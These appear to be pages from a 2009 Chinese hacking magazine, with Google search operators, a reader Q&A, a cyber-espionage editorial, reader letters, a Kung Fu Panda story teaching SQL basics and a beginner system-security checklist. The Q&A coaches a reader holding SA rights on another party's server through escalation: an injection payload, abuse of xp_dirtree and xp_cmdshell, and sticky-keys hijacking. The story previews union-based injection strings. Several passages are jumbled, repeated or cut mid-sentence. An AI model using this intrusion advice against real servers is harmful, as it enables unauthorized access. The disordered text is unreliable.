“define:关键字”：该关键字其实是 Google 提供的一个很贴心的功能，我们可以通过它找到我们想要的关键字定义。比如我想知道黑客的定义是什么，就可以用“define:黑客”来查找。

“related:关键字”：该关键字也相当好用，我们可以通过它来搜索指定网站的框架结构信息，包括一级、二级、三级域名的信息。比如你想要查找北京大学的服务器信息，在 Google 上搜索“related:pku.edu.cn”就可以得到很多归属该域名的网址。

“info:关键字”：该关键字可以搜索指定站点的一些基本信息，类似“related:关键字”的功能。

本站地址：http://www.nohack.cn/bbs/thread-104856-1-6.html

**Q：**请指教下，遇到如此情况：有 SA 权限没后台，啊D扫不出后台，执行 CMD 没反应，可以看 C 盘目录。

**A：**SQL 注入最早在 02 年兴起，到 05、06 年达到鼎盛，现在 SQL 注入已经慢慢地退出了我们的视线，只懂得拿着注入工具到处注入的脚本小子们可能要哀叹生不逢时了。

对于 sa 权限下的入侵，其实可以用 N 多方法来搞。既然可以看 C 盘目录，说明数据库没有禁用 xp_dirtree 这个扩展存储，当然我们可以通过它来列出所有目录，前提是必须保证 Web 和数据库没有分离。判断方法很简单，在注入点后面执行“and exists (select * from admin where 1=(SELECT (case when host_name()=@@servername then 1 else 0 end)))”，如果返回正常，说明 Web 和数据库是同一服务器，如果不正常则说明是分离的。

这位同学说的执行 CMD 没反应，可能有两种原因，一种是命令执行成功了没有回显，再者就是你用的注入工具不合适。

啊D的 SA 执行命令功能很不好用，建议换一个别的工具。如果真的 xp_cmdshell 或者 sp_oacreate 这些执行命令的扩展存储都被禁了的话，那就试试用沙盒或者 shift 映像劫持 cmd。总之方法有很多，SA 权限可以利用的扩展是很丰富的。

本站地址：http://www.nohack.cn/bbs/thread-104293-1-10.html

首先祝贺祖国 60 大庆，再祝大家中秋合家团圆！今年国庆 8 天假，应该是新中国有史以来最长的国庆假节了，我要好好地测试下 3G 漏洞，哈哈哈！3G 现在已经普及，不过资费方面就看大家自己的选择了，利用假节，我要把 3G 的方方面面了解个大概，哈哈——知识是无穷的啊！哎，别人的妈妈叫我回家吃饭，暂往别人家不习惯啊！

# 建议选摘

姓名：余浩  
职业：学生  
建议：看黑手大半年了，每期必看，是她让我一点点进步！希望能添加一些更加有趣的、好玩的、增加新手乐趣的内容，或者找些黑客游戏也不错。现在的都蛮好，特别是那个“功夫熊猫 hack”的文章，我特别喜欢，特别适合我这等菜鸟。  
永远的菜编：一起努力吧，走在大师曾经走过的路上。杂志连续几期都推出了一些连载类的文章，技术含量有低有高，涉及范围也很广。我想，基本的黑客技能大家都应该了解了，这样才能应用到安全防护方面，所谓：知之为不知而知者，知者不知也……（哎呀，卡壳了！）

姓名：唐俊冲  
职业：未知  
建议：目前发现一些脚本攻击良莠不齐，太多，应精简。“黑手”的图书产品很多样化，而且实用性也强，希望能看到再有脚本及编程类的图书，因为技术总是在变化，我们也要保持着“在线更新”哦！  
只有代码不编程的菜编：看来大家对代码的研究越来越感兴趣了，我很欣慰啊，你目前的想法颇有我当年的韵味。（友人：这句貌似很耳熟）代码设计的范围很广，单从计算机方面来说，就是 0 和 1。像免杀、破解、注入，甚至最简单的修改网站等，也得对代码有基本的了解。来吧，一起进入代码世界吧，终于找到知音了——我们研究的不是代码，是寂寞。

姓名：阳羽凡  
职业：学生  
建议：高三了，学习要加紧了，都没有时间出校买“黑手”了，而且电脑课居然都被改占了，哎！可想而知中国网络的安全意识只有在草根中发展了。以前没感觉，但一到高三，发觉自己即将面对社会，将要独立思考时，还真发愁。去年高考，学校专门有一天让那些考生接受心理辅导，我听说有些 MM 居然痛哭、呕吐，甚至进医院了，这个世界……  
黑手心理专家：高三很重要，每个人生的选择都很重要，而且心理素质对于一个人来说，正是区别于动物的特征。说起心理素质，个人觉得狼派将此道，不知道大家看过《狼图腾》这本书没有，让人有种说不出的感觉，黑夜阅读效果更佳。调节心理的基本点是：深呼吸，闭好你的眼睛，全世界有最清新氧气……（读者：唱歌也是不错的调整心理的方法）

# 功夫熊猫 Hacker 系漫游记 4

夜幕降临 IV——真相有很多

【安全菜鸟】

# 菜鸟如何判断自己的系统是否安全

# SQL 查询优先级对注入的影响及利用

# 著名的两个新方法

【新洞】

# 易想 B2B 系统漏洞分析利用

深入挖掘贸易系统漏洞

风讯网站区域管理系统最新 0day 分析和应用

DeDeCMS 0day 漏洞分析以及浅谈反射型 XSS 利用

【Cracker】

# 菜鸟逆向：瞧蝴蝶脚本程序库带来的误区

“毒”（集中式）对流程软件的爆破修改

【渗透】

# 直捣黄龙——杀入内部网络

利用 SSH 服务突破业务堡垒机的统一入口限制

【hack 编程】

# 飞话——藏在 WAP 下的安全隐患

ASP.NET Web BackDoor 编写原理

# DVD 精彩内容一览

- 60 手机安全卫士 s60v3
- 多桌面切换系统 1.0
- MYSQL 语句大全
- 44 个 VB 黑客程序源码
- Apache 日志查看器
- SS 漏洞检测工具
- Windows 内部运行原理
- Ubuntu 9.04 Linux 视频教程（二）
- 高级黑客攻防教程
- 乱聊中国（二）——香格里拉
- 非安全咖啡馆
- 游戏《炮火攻击》

# 请别总拿黑客说事！

美国一些政客和组织似乎一直对所谓的中国网络间谍话题乐此不疲，最近一家不具名的美国公司的商业资料据称被 IP 地址位于中国境内的网络间谍窃取，美国国会的“美中经济和安全评估委员会”就据此发布报告，竟称幕后支持者似乎是中国政府，更进而得出结论，“中国政府正在加紧实施针对美国的网络间谍行动”。

报告中称，这些具有高度组织性的网络间谍，计划从美国一家公司窃取大量价值重大的研发信息，黑客们数次使用了网络地址位于中国境内的一台主机和该公司内部网络的一台服务器作为通信渠道，以实施行动。

间谍们几乎同时对所有 7 台服务器发起了行动，这表明他们计划尽快将数据外传。虽然该公司有电脑安全小组最终监测到了数据外流，但大部分公司数据库已经流出了网络。鉴于这一次攻击的“专业性强”以及其所盗取信息的技术特性，它有可能得到了中国政府的支持，如果不是由它组织协调的话，所盗取的信息难以被该公司竞争对手或犯罪集团卖出去。

据悉，“美中经济和安全评估委员会”组建于 2000 年，旨在调查日益增加的对华贸易对美国安全造成的影响，成员主要是美国国家安全领域的前政府官员。

我国外交部发言人称，这个所谓的委员会一向渲染“中国威胁论”，有关报告捏造事实，充满冷战思维。并奉劝该委员会改弦易辙，停止发表此类报告，做一些有利于中美关系的事。

而前段时间，美韩声称要联合应对朝鲜精英级黑客部队，防范可能来自朝鲜的网络黑客攻击的新动向。朝鲜的信息化战争威胁已经迫使韩国建立了一套特别的军事指令，并预计在明年开始实行。五角大楼也在今年 6 月为美军创设了美军专用网络指令。专家称，朝鲜确实拥有精英级的黑客部队，他们于 3 月 5 日就已经侵入了韩国政府的电脑系统，窃取了有毒化学品的机密数据。

相关人士认为，随着网络攻击手段的日益复杂，美国和韩国必须采取更为“积极的步骤”，以保障各自的军事冲突和网络领域的安全。在未来的军事冲突或突发事件中，即使是最简单的数字连接的丢失，也会可能遭致破坏性的损失。

但是，我们能够看到的是，真正在黑客领域有更多作为的还是欧美，因为核心的技术，如操作系统、相关工具的发布等，都是从其外流出来的。而中国，可能是山寨化技术应用最实用的国家，我们永远不称霸，但不代表我们永远不去追求进步！

# 新闻时评：颠覆杀毒市场，360 强势插入！

秋冬渐近，又有点儿萧瑟的感觉了。某天正用电脑，突然屏幕右下角弹出提示，大意是提示是否安装 360 杀毒软件。懒的第一印象是：惊喜！因为一直用着 360，知道它是安全保护工具，类似于防火墙，并不具备杀毒的主要功能，所以一直配合其他杀毒软件一起构筑自己的防毒平台。现在 360 也推出杀毒软件了，据称还是免费，不得不马上关注起来。

网上搜索了一番，得到如下资料：  
10 月 20 日，360 宣布发布永久免费 的 360 杀毒正式版！就在当天同一时间，瑞星高调发布了其收费的 2010 正式版，三年期价格 299 元，并公开表示：“现在那些永久免费 的杀毒软件，主要是将杀毒软件的少部分功能给出来做一个安全工具，只能查杀几万种流行木马，功能不完整”

而 360 对此的回应是：“其实互联网行业是‘免费才有好货’！QQ、百度、163 邮箱，这些最受用户欢迎的产品，哪个不是免费的？道理很简单，花钱买来的东西即便不好用，用户也会不得不换掉；但换掉免费的东西谁会心疼？这就逼得我们必须把产品做得比收费的更好！”

“其实这个完全可以公开测试一下，360 无论查杀能力还是防误杀能力，在轻巧快速不卡机等方面，各项指标都已经全面超过收费杀软了。尤其是对游戏用户，还有那些配置比较低的笔记本和上网本用户。我们欢迎包括瑞星用户在内的任何个人、企业都来试用一下 360 杀毒，如果有谁发现瑞星比 360 杀毒要好，我们可以为该用户长期购买瑞星的软件，直到瑞星变成和 360 一样彻底免费！”

阅读如此激昂的资料，特别是最后一句，可见 360 推出首款免费杀毒软件对于将改写目前国内杀毒市场的现状表现得极有信心。

互联网提供免费的高品质产品已成为趋势，诸如谷歌这样的全球知名公司，所提供的一些优质免费服务，也为它们带来了巨大的附加商业价值。因此，杀毒厂商应该从免费为用户提供服务的基础上，寻找其它更多的附加商业价值。

不过也应该相信，传统的收费杀毒厂商不会消亡，或许试图转型专为一些高端用户提供特别服务倒是值得借鉴的策略。

> 编辑点评：  
> 很早之前就有这样的想法：我们在以身试毒，免费为收费杀软的“云安全”做贡献，兢兢业业地上传遇到的病毒文件，到头来还得花钱来杀毒，心里有点不舒服。当然，另一个原因还是在于，现在的杀毒软件越做越大，太占用电脑资源，如果有小巧实用的免费工具，谁又不用呢？

回茅庐

下心来思考，且自发地有意地去规避错误的方向，这点很了不起。比起一些同龄人你要强了不少，你虽然外形憨态可掬，看似笨拙无心，实则是藏大智于其中啊。”浣熊师傅由衷地赞叹道。

“你很快就越过了网络技术的入门门槛，不愧神龙大侠的这个美名，悟性很高。虚虚实实的网络中，你在很短的时间内就能在思想上为自己编制了一堵防火墙，过滤掉虚无浪费的东西，确实不简单。熊猫活在这个世界上，就要做有意义的事情，这才无愧于我们这一生！”

“嘿嘿，谢谢师傅夸奖，经过 XiFu 这一指点，让我更加明确了自己的方向，以后我会更加努力的，请师傅放心。对……对……那……师傅，接下来我的学习任务是什么呢？”阿宝期待地看着浣熊师傅。

“嗯！好！”小说熊捋了捋白须，微微点了点头接着说道：“你在人门这个阶段的进步速度比我想象中要快，师傅也希望你再接再厉，坚持下去。现在你需要一个系统的学习方案，师兄他们会给你安排好课程的，为师先给你透露一点，内容是主流的一些攻防技术与数据库基础。下午你去找太极虎师姐吧，我都安排好了。”

“太好了，谢谢 XiFu。”熊猫抱拳行礼，谢过师傅，回去准备了。

# 蒸发

记得当初阿宝接触网络时，总是喜欢聊天，电脑只要开着，总会发现右下角有一个小企鹅。不知何时，这个企鹅出现的几率比以往少了很多，但偶尔还是会出来冒个泡。冒泡的时候也跟以往大不同了，以前总是听到企鹅在叫，现在那个企鹅都成了哑巴，这是因为阿宝不想让这只企鹅的叫声打搅到自己。认识已久的网友们从此之后就很少看见那熊猫头像的 QQ 上线了，他们看见的只是灰色的熊猫头像（貌似熊猫本来就是黑白，很难判断其在线与否），大伙都以为阿宝人间蒸发了。

其实在这段时间里，有一种莫名其妙的感觉困扰着熊猫阿宝，它无法理解这个谜到底是什么，于是前去请教 Master 师父。

> “Master XiFu!!……I……I don't understand!……”

“Oh, No, Stop! Stop, Can you speak Chinese?!”

“呃！师父也懂英文了？真是 very very very good 啊！”

“找俺啥事？”

“最近我也不知道怎么了，感觉有点怪，现在我对于网络有点厌倦，不像刚开始的时候，很迷恋。但是只是对某些东西开始感到厌倦，比如不喜欢在网上瞎聊，连 QQ 也不想登录了，除非是收一下女熊猫的照片，才偶尔上线一次。”

“yo，年轻人，要以学业为重，不要贪念儿女情长。”浣熊师傅义正言辞地训了一下阿宝，心里却暗想：和为师年轻时的爱好一样嘛，嘿嘿。

“哦，哦，师傅，知道了，我现在肯定是要把学好本领作为首要任务来完成，那些都是说说而已，没放心上。”阿宝急忙解释一下，而心里想：这话可不能让熊猫 MM 听见。

然后阿宝继续说道：

“有时候觉得瞎聊耽误时间，不如看书有意思，静下心来，学学书上教授的一些技术啥的好像更有收获。我 QQ 上有不少技术群，虽然大多美其名曰技术群，但聊技术的真的很少，问技术问题也基本没人回答。要是谁发个 MM 的艳照啥的，倒能勾起大家的聊天热情，口水乱飞。我不想这样无所事事于网上虚度光阴，但现在自己又不是很明确知道我下一步学什么，稍稍有些迷茫！不知道为什么？”

“恭喜你！阿宝，你能去总结所看到的问题的症结，并能静下心来思考，且自发地有意地去规避错误的方向，这点很了不起。比起一些同龄人你要强了不少，你虽然外形憨态可掬，看似笨拙无心，实则是藏大智于其中啊。”浣熊师傅由衷地赞叹道。

# 新的开始

太阳开始偏西的时候，阿宝找到了师姐太极虎，师姐正在打坐，闭目养神。

阿宝蹑手蹑脚地准备退出去想待会再来。

“宝，你来了！”师姐通过脚步声便知是阿宝来了，睁开眼站起身子。

“hoho，不好意思，打扰师姐休息了，师父叫我来找你，说是要教我一些主流的攻防技术？”阿宝问道。

“嗯，正是，SQL 注入想必你听师兄们讨论得最多吧？”

“SQL 注入！？当然了，经常看到螳螂兄和蛇蛇师姐他们为了一个注入点而争得面红耳赤，我自己用过啊D注入工具，觉得有点意思，就是不太明白这些东西的原理什么的，一直都想深入其里，好好探究一番。”熊猫很是高兴。

“嗯，很好，兴趣是最好的老师，宝有如此好学之心，再加上持之以恒的拼劲，一定能成大器。”师姐深知在教学上一定要多多鼓励学生，让学生在轻松愉快氛围下学习，进步更快。师姐学艺的那个年代，可没少挨师傅的批评，在打击呵斥下的环境中成长的学生，在表现力上和智力挖掘上会有所欠缺的。不过师姐也并不怪师父，毕竟在传统的传承中，有些糟粕的东西大家也都认为是正确的，也就毫无戒备地继承了下来。幸运的是，随着网络的出现，我们这一代的见识越来越广，创新的思维方式也越来越多地被发掘出来，自然传统中一些糟粕的东西也逐渐被大家认识，并慢慢地摒弃掉。师傅在经过上次太郎和熊猫的决战之后，经过几宿的反思，他发现了自己在教学上的诸多不足，于是开始努力营造轻松愉悦的开放式教学环境，并和徒弟们渐渐打成了一片，以前爱板着脸装一本正经，现在和徒弟们也会偶尔幽默一把。

“SQL 注入的威力是相当强大的。要发挥它的威力，你务必要熟悉各种脚本语言、各种数据库的操作，还有系统的特性。只有这样，你才能算在 SQL 注入这块入门，它能做的事情比我们想象中的要多。举个简单易懂的例子，比如它能修改数据库，例如你在某论坛注册了一个账号，论坛金币为 10，你能通过注入把它修改成 1000；又如，你能通过一个注入点执行系统命令，达到控制整个系统；当然，SQL 注入还能得到管理员的账号密码，你说强大不？能做的事情还多着呢！”

“哇！SQL 果然很牛叉！”熊猫口水都差点流出来了。

“阿宝，你又跟哪学的不好听的话，下次再说我可不再教你了！”太极虎师姐面带怒气！

“呃喔，师姐别生气！我是一时找不到更好的词来表达我对 SQL 的敬仰，所以口误，口误，sorry，sorry。”惭愧的阿宝装出可怜的样子以博得师姐的谅解。

“原谅你一次！咱们继续，要把 SQL 注入应用学得出神入化，必须要打好基础，首先要熟悉结构化查询语言；要是你想挖漏洞，还需要深入研究 ASP、PHP、JSP 等编程。系统的学习，可以让你更加全面地了解 SQL 注入的全貌，所谓知其然，还得知其所以然。如果我们学好了结构化查询语言的原理，那对于我们今后在工具不管用的情况下，自己动手构造注入语句是很有裨益的。”

# SQL 漏洞的产生

虎师姐喝了口水，又继续讲解起来，阿宝也拿起笔认真地写着。

“目前 SQL 注入已经成为黑客攻击最广泛的一种方式，**SQL 注入也称作 SQL Injection，它的产生是由于程序员编写代码的时候没有对用户输入数据的合法性进行判断，又或者进行的判断不够完善导致的。**SQL 注入是从 WWW 端口访问的，所以传统的防火墙无法对此攻击进行拦截，这是 SQL 攻击的一个很重要的特点。即使服务器被攻击了，管理员一般也很难发现，如果管理员的经验丰富的话，可以查看 IIS 日志发现此类攻击。”

SQL 全称是：结构化查询语言（Structured Query Language）。

“那么到底 SQL 注入是怎么形成的呢？其实 SQL 注入跟数据库有着密切的关系，如果没有数据库，就谈不上什么注入了。**SQL 注入攻击的目标就是数据库，又可以称数据库是攻击的中转站。**为什么数据库在 SQL 攻击中又称作中转站呢？因为 SQL 注入攻击是通过数据库执行命令之后来控制服务器的操作系统的，具体怎么操作在后面会说到，这里先让你简单了解一下。既然 SQL 注入跟数据库有着密切的关系，阿宝，你就得先学习好数据库的知识。本次讲解我们会涉及到不少新概念、新词汇，如果不懂，你可以先记下来，回头问问我，或者去图书室查询一下《黑客词典》那本书，里面有不少网络安全词汇的解释。”

“好的，我记住了。”阿宝打起精神，专心听讲。

# 初识数据库

师姐通过维基百科，把对数据库较为权威的解释讲给熊猫听。

“何谓数据库呢？维基百科是这么定义的：数据库（英文：DataBase，港台地区称为资料库），可以被视为能够进行自动查询和修改的数据集。数据库有很多种类型，从最简单的存储有各种数据的表格到能够进行海量数据存储的大型数据库系统，都在各个方面得到了广泛的应用。数据库存在多种模型，而应用于大型数据储存的数据库一般为网状数据库（Network Database）、关系数据库（Relational Database）以及面向对象式数据库（Object-Oriented Database）。Oracle 即前者此特性。此外也有应用在 LDAP（轻量级数据访问协议）的层次结构式数据库（Hierarchical Database）。”

“我们这里讨论的是关系型数据库，**关系数据库是建立在几何代数的基础上的，应用数学方法来处理数据库中的数据。**一般常见的关系型数据库有 Microsoft Access、MSSQL-Server、MySQL、Oracle、DB2、PostgreSQL、Informix、Sybase 等等。我们平常所说的注入实际上也是针对这些数据库来的，上面涉及到了不少新鲜词汇，宝，你可能有点懵，但是不要紧，这些对你来说，知道个概况就 OK 了，接下来重点来了，可要听好！”

阿宝急忙停下记录，本来正在懊恼这么多新词汇，咋理解呢。

“在注入中必定涉及到表（Table），其实表是以行（Row）和列（Column）的形式组织起来的数据的集合。在关系型数据库当中，一个表就是一个关系，一个关系数据库可以包含多个表。我们注入中所称的字段（field）就是表的‘列’！”

“这样的解释可能有点抽象，其实阿宝你可以把数据库理解成外面的那个图书室，里面包含了很多书本，而当中的书就充当数据库中的数据。图书馆里面又分很多个书架，这里的书架你就可以理解成数据库里面的表。每个书架存放的书本都是按照一定关系存放的，例如编程类的书放在同一个书架，网络安全类的书又独立放到另外一个书架。譬如网络安全类中又包含很多书本，例如《黑客手册》，它是网络安全类书架中的某一个成员，这样我们就可以联系到数据库表里面的字段（field）。那么字段里面的内容就等同于书本里面的内容了。不知道这样解释后，师弟你是否会更加明了呢？”

“师姐！这个真不是很明白，有点抽象哦，能否实操一次给我看看？”

“好的！不明白就对了，这些概念上的东西就是需要操作一次之后才会有个感性的认识，再然后才会有理性的吸收。现在我先教你几个基本的命令，首先来创建一个数据库，然后在里面建立表跟数据，最后用建立好的数据库给你演示，你就很容易理解了。”

“好 yeah，谢谢虎姐！”

# SQL 基础语句

“这里我们用 MySQL 数据库演示，安装过程就不说了（程序已放光盘），打开 **MySQL Command Line Client**，提示输入安装时设置的密码，输入正确后就登录成功，如图 1。接着用 **show databases;** 命令查看存在多少个数据库，如图 2。”

“show databases 后面跟的 ; 号就是代表此语句结束。要是语句复杂，为了看上去比较简洁，人们一般会分行显示。这里显示了 3 个数据库，它们都是 MySQL 自带的，information_schema 数据库在注入中的作用是非常大的，test 数据库是给测试用的。”

“我们先来看看如何建立一个新的数据库。执行 **create database nohack;** 命令，然后用 **show databases** 命令查看一下，发现新建立了一个名称为 nohack 的数据库，如图 3。”

“删除数据库的命令格式为：**drop database 数据库名;**。现在建立了一个数据库，我们再在此数据”库中建立一个名为 user 的表。在建立表之前，我们先用 `use nohack;` 命令告诉 MySQL，我们要使用 nohack 这个数据库，如图 4。

“创建表的命令为 `create table`，这里我们输入 `create table user(id int,primary key (id),name nvarchar(255),age nvarchar(255));`，这句话的意思为创建一个名为 user 的表，表中包含 id、name、age 三个字段，字段 id 的类型为 int，字段 name 和字段 age 的类型为 nvarchar，并且设定 name 跟 age 的长度为 255。要想删除表可用 `drop table user;`。”

“师姐，那么 `primary key (id)` 是什么意思啊？”

“这个就是把 id 这个字段设置为主键。键是在表中扮演特定角色的特殊字段，而键的类型决定了它在表中的作用，这里我们讨论两种键：**主键（primary key）**和**外键（foreign key）**。其中主键是唯一表示表中的每条记录的一个字段或一组字段（复合主键）。”

> “主键之所以重要，是有两个原因：其一，它的值标示了整个数据的一个特定记录；其二，主键的字段标示了整个数据库中的一个给定的表。主键还强制了表的完整性，并且有助于建立和其他表之间的关系。”

“现在这个表还没有数据的啊，怎么添加数据呢？师姐。”

“下面就教你怎么添加，让高呼讲吧，虽然这些知识比较枯燥，但是在以后的 SQL 生涯中都需要应用到。”

“嗯！好的，师姐！”

“至于插入数据，语句格式为：`insert into 需要插入的表(字段1,字段2) values(数据1,数据2);` 这里我们尝试插入以下语句：”

```sql
insert into user(id,name,age) values('1','panda','18');
insert into user(id,name,age) values('2','太极虎','19');
insert into user(id,name,age) values('3','师父','50');
```

数据插入完毕，然后执行 `select * from user;` 看看效果，如图 5，可以看出我们插入的数据是成功的。

“现在回头来给你说说什么是表、字段和列吧。图 5 中的长方形就可以抽象理解为一个表，而表中的行（Row）即是 `| 1 | panda | 18 |`，也称作一个记录。列（Column）就是字段，也就是说竖着的就是列。例如，“id”就是一个列，也称作字段。”

“现在都明白了！呵呵，师姐，师父好像不是 50 岁哦，我要修改成 100 岁的话，怎么修改呢？”

“其实熊猫的葫芦并不是卖这个药，他是想知道怎么修改论坛金币呢。”

“至于修改数据就得用 `update` 语句了，`update` 语句有 3 个子语句：`update`、`set`、`where`。如果要修改师父的岁数，语句就用 `update user set age=100 where id=3;`。`update` 后面跟要修改的表名，`set` 后面跟要修改的字段，而 `where` 子句就是指定要修改的项。`update` 语句执行后的效果如图 6。”

## select 语句

虎师姐一鼓作气，滔滔不绝，这可苦了阿宝，笔记都差点跟不上。

“我们已经用过 `select` 语句了，`select` 算是 SQL 的核心所在，它是 SQL 语言中最强并且复杂的语句。它还是用来从数据库中获取信息的工具，前面的 `select * from user;` 语句就是获取 user 表里面的全部数据，星号代表全部。”

“`select` 语句中还包含一些子句：”

- `select`——它是 `select` 语句的重要子句，并且是绝对必要的，每个 `select` 语句都需要它，我们使用它来指定想要在查询结果集中看到的列。
- `from`——它也是 `select` 语句必须的子句，它用于指定我们需要查询的表。
- `where`——这个子句是可选的，它起一个过滤作用，就是能把你不想显示的查询结果过滤掉。
- `group by`——这个语句是用于把信息分组。
- `having`——此子句也起过滤作用，跟 `where` 相似。

用 `select` 语句查询的结果是没有排序的，这个时候就可以使用 `order by` 语句进行排序。例如这里我们按照 ID 大小排序，语句为 `select * from user order by id;`，默认为升序排列，当然你也可以用 `select * from user order by id asc;` 指定为升序，要用降序则用 `select * from user order by id desc;`，如图 7。”

# 数学表达式

师姐停了一下，说道：“其实我说的东西你不用抄全部记录，你只把你不懂的记录下来就 OK 了，图书室的图书有我这期讲的内容的。”

阿宝：“哦，早说嘛，那本书有这期的内容哇！”

“《非安全黑客手册》09 年 11 月上就有，咱们继续。”

“SQL 标准定义了加减乘除作为数值数据上的执行运算。例如我们想知道 1+1 等于多少，则可以执行 `select 1+1;`，如图 8。这里自己就举一反三吧，至于运算的优先级别，跟数学是一样的，先乘除后加减，有括号的先算括号里面的。有些数据库还支持幂除、求平方根、绝对值等运算。”

# 数据汇总

“SQL 标准提供了一组聚合函数，允许我们通过结果集中的行或者一个返回的值来计算一个单独的值。也就是说，像刚才那样，我们可以查询 user 里面的数据，同时也可以使用聚合函数把我们的年龄统计出来。我们可以使用 `SUM` 函数来进行求和，执行 `select sum(age) as qiuhe from user;` 就可以给出我们三个的年龄之和了。要是你想求平均值，可以用 `select avg(age) as pingjunzhi from user;` 语句，如图 9。其中还有求最大值的 `MAX` 函数，求最小值的 `MIN` 函数，语法跟上面操作的函数一样。”

# 策划

“在 SQL 注入中，count 函数会经常被用到，因为 count 函数能统计行和值。SQL 标准定义了 count 函数的两个版本，count(*) 处理结果集中的行，count(value expression) 处理值表达式返回的值。”

“现在可以来统计一下我们建立的 user 表中存在多少行，执行 `select count(*) from user;` 即可，如图 10。”

“师姐，要是我想统计有多少只猫，是不是用 `select count(*) from user where name='panda';` 语句呢？”阿宝说。

“是的，真聪明，还会用上 where 子句了，不错不错，你看看图 11 就知道了。”

“但是为什么上面的聚合函数里面有一个 as 语句呢？这个是在什么情况下的时候使用啊？”阿宝大惑不解。

“这个 as 就是定义一个别名，例如 `select avg(age) as pingjunzhi from user;` 这句，就是把查询的结果定义为一个叫 pingjunzhi 的别名显示出来。当然这里也可以不用 as，两种语句执行后的结果比较如图 12。但是很多复杂的 select 语句都需要用 as 语句，以后会给你详细解释的。”

# and 和 or

“有时查询时需要多个条件，这就要用到 and 操作符连接了，我们在 SQL 注入中用到的 and 1=1 就是这个用途。在 URL 中，前面语句是正确的，加上 and 1=1 条件也是成立的。然后换成 and 1=2 就出错了，这就是因为 and 后面的条件不成立导致的。”

还是用我们上面建立的表为例子，我们先插入一条数据 `insert into user(id,name,age) values('4','panda','38');`，如图 13。

现在我们要查询名字叫 panda 的动物，使用语句为 `select * from user where name='panda';`，如图 14。这里就出现两条数据，但是 38 岁那只熊猫并不是我们想要的结果，那么我们可以用 and 操作符添加一个条件，语句即为 `select * from user where name='panda' and age='18';`，如图 15，这样就只显示我们所需的数据了。

and 操作符要是两个表达式其中一个不为真的话，结果都返回假。or 运算符是组合两个或多个条件的运算符。当组合的两个条件中任何一个成立，结果则返回真。

例如我们要查询岁数为 18 或者岁数为 100 的数据，可以用 `select * from user where age='18' or age='100';` 语句，如图 16。

要是 and 跟 or 在同一个语句，它们的优先等级是先执行 and 的语句，然后再执行 or 语句。”

# union 语句

一口气讲了这么多，虎师姐觉得天色也不算早了，看阿宝也有些疲乏，说：“阿宝，打起精神来，今天这节课我再最后给你讲一个 union 语句，咱们就下课，听说你鸭子爸爸刚才给你送了最爱吃的新鲜竹笋来哦！”

“哇，哦，好哇好哇。”阿宝重新打起精神，抹掉口水，继续听讲。

“UNION 指令的目的是将两个 SQL 语句的结果合并起来。我们分别执行 `select age from user;` 跟 `select name from user;` 语句，如图 17，然后再执行 `select age from user union select name from user;`，如图 18，这样就将两句要查询的内容一起显示出来了。”

“在 SQL 注入中，我们必定会用到 union 语句的，例如 and 1=1 union select 1,2,3 from user 就是在查询 and 1=1 和联合查询 union 后面的数据。这个很好理解的，都不难，以后在注入中就没有那么简单了，有时候还需要配合 select 的嵌套语句了，比较复杂。现在先将基础学好，以后就不用那么吃力了。”

今天就给你先介绍这些，其实在注入攻击中还有其他语句的，例如 group by、outer join、inner join 等语句，还有一个就是 cast 函数，这里都没有介绍到。其他语句我会在往后的入侵中给你讲解，这里给你安排一个任务，就是在网上找一些关于 SQL 语句的资料学习一下，我这里还给你几本这方面的电子书（放光盘里头咯），多学习哦，还没有到详细介绍的时候，看看这些简单的资料，多了解一下基础命令的应用吧。”

“好的师姐，辛苦你了，感谢你为我讲解的这么多的知识。”

# 菜鸟如何判断自己的系统是否安全

> Q 栏首语：国庆过后就等着大家给我送“女”了，不然又得过“双十一节”了，都问……都快已经 18 了，不大不小，最适合谈恋爱了。虽然泡天兄，但我有文化啊，我可是有身份证的人了，还是彩色的二代。上面的字我都认识，那个照片还是数码相机拍的呢……

从本文学会简单判断自己的系统是否安全

前言：大家好！我网名叫未来明星，接触《黑客手册》已经两年了，这次是我给《黑客手册》第一次投稿，还望多多指正。废话不敢多说，直入主题，如何简单判断自己的系统是否安全呢？

- 1. 在电脑刚开机连接网络的情况下，可以使用 `netstat -an` 命令判断系统安全。我们依次选择“开始”→“运行”，输入“cmd”后回车进入 CMD 模式，再输入命令：`netstat -an`。

`netstat` 命令是一个观察网络连接状态的实用工具。可能系统有一些程序会在刚开机的情况下与外部 IP 建立连接，比如：系统自动更新、杀毒软件、防火墙、千千静听、迅雷等程序，当然这些也可以由你自己设置。通过防火墙限制它们是否访问网络，是否开机自动启动等。

如果在刚开机的情况下，按照上面的操作方法使用命令：`netstat -an` 后发现有外部 IP 连接你的电脑，那你就要小心了。您可以上 www.ip138.com 这个网站查询一下对方 IP，看一下对方 IP 是哪里的，从而判断系统是否安全。

- 2. 可以通过系统进程判断系统安全。除了系统正常进程外，如果发现来历不明的进程，可以把这个进程的名字拿到百度查找一下，看看这个进程是不是病毒木马；也可借助冰刃等工具来检查系统进程。

- 3. 查看系统服务。我们依次选择“开始”→“运行”，输入 `msconfig`，如图 1。

运行后弹出“系统配置实用程序”对话框，我们选择“服务”标签项，再把最下面的“隐藏所有 Microsoft 服务”打勾，如图 2。

这样，除了系统正常服务外，如果还有其他来历不明的服务你也要小心了。如果你不懂这个服务，可以把这个服务名字拿到百度去搜索一下，看这个服务是否是病毒木马。

- 4. 查看启动对象。我们依次选择“开始”→“运行”，输入 `msconfig`，运行后弹出“系统配置实用程序”对话框，我们选择“启动”标签项，从中可以发现来历不明的启动项目，如图 3。当然，也可以利用 360 等工具查看。

如果发现来历不明的启动项目，你也可以把这个项目的名字拿到百度去查一下，看这个启动项目是否是病毒木马。

- 5. 查看系统是否有隐藏账号。我们依次选择“开始”→“运行”，并输入 `regedit.exe` 后回车，启动注册表编辑器 regedit.exe。

```text
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\
```

打开键：`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\`，在这里查看一下你系统的用户，看看有没有隐藏的账号，前提是你需要有这个注册项的权限！

头我让老爸亲手给你煮一碗上汤好面。我会自己继续找一些资料看看，我要努力成为“大熊猫”（即传说中的大牛）！”随后“大熊猫”用 U 盘拷贝电子书回到自己的房间开始 SQL 学习之旅了。

**友情提醒：** 非常感谢你对《功夫熊猫 hacker 漫游记》的支持，下一期将会以实例开始详细讲解各种 SQL 注入的攻击，希望大家继续关注！

从本文学会合理设置电脑

